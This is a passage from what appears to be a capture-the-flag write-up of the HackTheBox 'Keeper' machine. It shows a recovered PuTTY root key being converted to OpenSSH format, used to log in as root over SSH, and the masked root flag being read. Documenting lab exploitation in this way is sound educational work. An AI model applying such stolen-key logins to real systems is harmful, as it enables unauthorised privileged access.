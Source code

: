     oxdf@hacky$ puttygen root-putty.key -O private-openssh -o ~/keys/keeper-root
    

#### SSH

Now it works:

    
    
    oxdf@hacky$ ssh -i ~/keys/keeper-root root@keeper.htb
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
    ...[snip]...
    root@keeper:~# 
    

And I’ll grab `root.txt`:

    
    
    root@keeper:~# cat root.txt
    c930d7c0************************
    

[](/2024/02/10/htb-keeper.html)

